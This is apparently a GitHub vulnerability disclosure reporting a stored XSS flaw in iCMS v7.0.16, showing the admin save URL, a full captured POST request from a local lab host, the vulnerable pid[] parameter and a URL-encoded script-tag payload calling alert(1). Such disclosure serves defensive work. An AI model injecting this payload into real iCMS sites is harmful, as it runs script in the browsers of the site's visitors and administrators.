

## There is a Stored XSS Vulnerability in iCMS v7.0.16

The iCMS v7.0.16 has a tored XSS Vulnerability in iCMS v7.0.16

### proof

The vulnerable url is:

```
http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q
```

The whole package is：

```
POST /iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=8379e504fAGLz85cfRMOPsH4R93vvKD0NLoOaXhyIfh-HeRGmps6mL6iLIkVpZDAsUB7MoMgD9LmXA_NE3KixIIMJUao8-KGlt-k69c HTTP/1.1
Host: 192.168.64.2
Content-Length: 570
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.64.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=add
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7,zh-CN;q=0.6
Cookie: iCMS_apps_tab=apps-type-1; iCMS_ACP_sidebar_mini=0; PHPSESSID=87b0836c37ab2095ec1c01c74cbcc245; Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1611310222; Hm_lpvt_7b43330a4da4a6f4353e553988ee8a62=1611310697; bdshare_firstime=1611392444473; iCMS_tag_category_tabs=tree; iCMS_article_good_1=1611488317; iCMS_ADMIN_AUTH=650bd5cd8NWyz8fJhuzzFnbI220Kia_5w0mB-MOAB3a4aQC2SB0vf4-MPR6Rc8IkujMeH4A631iutChEDui75bvB_MLCrcGAyHPR2gYjbnjyh1kJbtQLmFntvg; iCMS_USER_AUTH=34d9c5bbxpGL7X25aZ7_vNOzlQAYlerPnwRGOLwXFqwhjmcYJsN4lTFBjo3P7pqIq5LHZpJ7Hr9FquG1hdUBrV3NsxlIugaqhw4MyuoBDlvxgYWCtijkRqLtQPbQO1wC8n-93m1ObSrI0lsSiNs1aTLm5UMl0pS-YCFaMQhlwez-7MkCaGgxDeb2CRNuMmsQK1sl-eVdw_6aDWztyQkasA57sy8CXAYawiilmfN2fDdB1Js0tFvUvzM4kLShqy0Q06iSYe07vpvXeVfwO0QNdQF-Ssrg0DnZAB_HiiBfSzGmLTHSCOXnr-wjMk_g4LghbNjXCc0B6FQgjqAfAMLvh2UOOeUYdHiNAuy8WqzotiHTKvpvX0d3JUkVR122OiecRP2It7HfZZzRKinhzEHPrI3eHHYDfuia1naYFZ7zilhL9YmRNCARQ63Utu0YQYOOz7U0WQ3FeNPHiJYzx3w4F7ucBAsmCwiOTqos-J8GwHswr-pmEJQ1EKzpQoB_RqG0kK_z1wiUa6X_mTSIuXJKo35yPmbj; iCMS_USER_TOKEN=16121103b541c002ddf321777821221d9f784cef; iCMS_userid=9a19953azOe4BTrwyNfGp5jHStxEJ0IpkHOFnBmJCa23ONwOhQ; iCMS_nickname=c882806dOWG3Q6CdzP1YS1ZaVicJqujfV7eGNT8Ij3nRgpzs
Connection: close

_cid=&_scid=&_tags=&_pid=&_data_id=&article_id=0&userid=1&ucid=&postype=1&REFERER=http%3A%2F%2&chapter=&markdown=0&cid=4&status=1&scid%5B%5D=4&pid%5B%5D=0&title=ffasd&stitle=fsad&source=123131231&author=&editor=iCMS&pic=fasd&mpic=&spic=&keywords=fsd&tags=asdf&description=fasd&data_id=&subtitle=fasd&autopic=1&body%5B%5D=%3Cp%3Efasd%3C%2Fp%3E&pubdate=2021-01-24+21%3A31%3A04&sortnum=1611495064&weight=1611495064&hits=0&hits_today=0&hits_yday=0&hits_week=0&hits_month=0&favorite=0&comments=0&good=0&bad=0&tpl=&clink=&url=
```

the vulnerable param is pid[], and the poc is:

```
tqj35%22%3e%3cscript%3ealert(1)%3c%2fscript%3eg6ciq
```

And every time we visit this site ,the js will execute. like:


